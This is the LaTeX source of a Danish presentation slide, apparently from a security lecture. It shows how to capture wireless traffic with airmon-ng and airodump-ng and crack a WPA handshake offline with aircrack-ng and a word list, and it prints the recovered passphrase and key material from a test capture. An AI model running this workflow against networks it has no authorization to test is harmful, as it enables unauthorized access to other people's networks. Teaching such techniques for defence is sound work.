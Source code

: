 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list1}
\item Når airodump kører opsamles pakkerne
\item Lås airodump fast til een kanal, -c eller --channel
\end{list1}

Startes med airmon og kan skrive til capture filer:

\begin{alltt}
airmon-ng start wlan0
airodump-ng --channel 6 --write testfil wlan0mon
\end{alltt}



\begin{alltt}
\small
slax ~ # aircrack-ng -w dict wlan-test.cap
Opening wlan-test.cap
Read 1082 packets.

#  BSSID              ESSID           Encryption

1  00:11:24:0C:DF:97  wlan            WPA (1 handshake)
2  00:13:5F:26:68:D0  Noea            No data - WEP or WPA
3  00:13:5F:26:64:80  Noea            No data - WEP or WPA
4  00:00:00:00:00:00                  Unknown

Index number of target network ? {\bf 1}
\end{alltt}


\begin{alltt}
\small
          [00:00:00] 0 keys tested (0.00 k/s)

                    KEY FOUND! [ Henrik42 ]

Master Key     : 8E 61 AB A2 C5 25 4D 3F 4B 33 E6 AD 2D 55 6F 76
                 6E 88 AC DA EF A3 DE 30 AF D8 99 DB F5 8F 4D BD
Transcient Key : C5 BB 27 DE EA 34 8F E4 81 E7 AA 52 C7 B4 F4 56
                 F2 FC 30 B4 66 99 26 35 08 52 98 26 AE 49 5E D7
                 9F 28 98 AF 02 CA 29 8A 53 11 EB 24 0C B0 1A 0D
                 64 75 72 BF 8D AA 17 8B 9D 94 A9 31 DC FB 0C ED

EAPOL HMAC     : 27 4E 6D 90 55 8F 0C EB E1 AE C8 93 E6 AC A5 1F

\end{alltt}

 cm

\centerline{Min Thinkpad X31 med 1.6GHz Pentium M knækker ca. 150 Keys/sekund}



\end{document}
